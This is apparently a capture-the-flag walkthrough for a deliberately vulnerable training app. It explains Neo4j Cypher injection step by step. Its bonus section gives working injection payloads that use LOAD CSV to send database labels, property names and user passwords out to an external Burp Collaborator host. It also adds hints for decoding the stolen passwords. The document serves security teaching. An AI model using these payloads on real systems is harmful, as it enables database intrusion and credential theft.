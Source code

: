 ## Neo4j EASY

<details>
  <summary>Hints</summary>

  1. Can you modify the request before it gets sent to server?
  2. Can you modify the request so the application displays an error with the cypher query? 
  3. Can you modify the request to include the Cypher equivalent to sql injection's ```x' or 'x'='x```
</details>

<details>
  <summary>Walkthrough</summary>

  1. Browse to the Using Burp or ZAP, intercept request after clicking "go" on Neo4j search page
  2. Edit the request: Change ```person=Tom+Hanks``` to ```person=xxxxx"```
  3. Forward the request
  4. Back in your browser, observe the query in the error message
  5. Send another request and intercept it
  6. Edit the request: Change ```person=Tom+Hanks`` to ```person=Tom+Hanks" or person.name=~".*```
  7. Forward the request
  8. Back in your browser look for the FLAGs
</details>

## Neo4j MEDIUM 

## Neo4j HARD

## Neo4j BONUS  

<details>
  <summary>Hints</summary>

  1. You need your own webserver where you may monitor access logs or  [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) for the BONUS flags
  2. Learn and use [Neo4j's db.labels() and db.propertyKeys() procedures](https://neo4j.com/docs/cypher-manual/current/clauses/call/) to learn what's in this database.
  3. Learn and use [Neo4j's LOAD CSV functionality](https://neo4j.com/developer/guide-import-csv/) to cause Neo4j to make http requests
</details>

<details>
  <summary>More Hints</summary>

You need [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client), which is sadly only available with Burpsuite Pro, or your own webserver where you are able to see HTTP access requests. You could add a basic webserver container to this set up and use that server's IP address and access logs in place of Burp Collaborator.

1. Set your challenge level to Medium
2. Get list of all labels in the database and look for something interesting

```
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2blabel+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

3. Get list of all properties in the database and look for something interesting

```
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bpropertyKey+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

4. Try variations of the following payload, replacing LABEL with an actual label and PROPERTY with an actual property from steps 1 & 2. This will tell you what properties go with what labels - if no error is thrown you have a property matched to a label.

```
person=Christian+Bale"})-[role]->(node:LABEL)+RETURN+person,role,node.PROPERTY&role=DIRECTED&search=go
```

For example, this should throw an error

```
person=Christian+Bale"})-[role]->(node:Person)+RETURN+person,role,node.title&role=DIRECTED&search=go
```

And this should not throw an error, but you won't see the data for ```node.title``` because of the code that's printing data to the screen

```
person=Christian+Bale"})-[role]->(node:Movie)+RETURN+person,role,node.title&role=DIRECTED&search=go
```

5. Once you've decided what LABEL and PROPERTY you are interested in, use the following payload, foreach person in the database, replacing LABEL with the label and PROPERTY with the property and watch your collaborator space or your server access logs. 

```
person=Tom+Cruise"})-[role]->(node:LABEL)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.name%2b'/'%2bnode.PROPERTY+AS+r+return+person//&search=go//&role=DIRECTED&search=go
```

For example

```
person=Tom+Cruise"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go
```

6. Some of the flags may need to be further figured out.
</details>


<details>
  <summary>Exact steps to FLAGS</summary>

You need [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client), which is sadly only available with Burpsuite Pro, or your own webserver where you are able to see HTTP access requests. You could add a basic webserver container to this set up and use that server's IP address and access logs in place of Burp Collaborator.


1. Set your challenge level to Medium
2. Get a list of all labels in the database - you are looking for the ```User``` label.

```
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2blabel+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

3. Get list of all properties in the database - you are looking for the ```password``` label. 

```
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bpropertyKey+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

4. Use the following payloads to get the BONUS flags.

```
person=Tom+Tykwer"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go

person=Tom+Cruise"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go

person=Tom+Skerritt"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go
```
5. The BONUS^MEDIUM password is base64 encoded 3x. 
6. The BONUS^HARD password is encoded using Ceasar Cipher then converted to asciihex then base64 encoded.
</details>

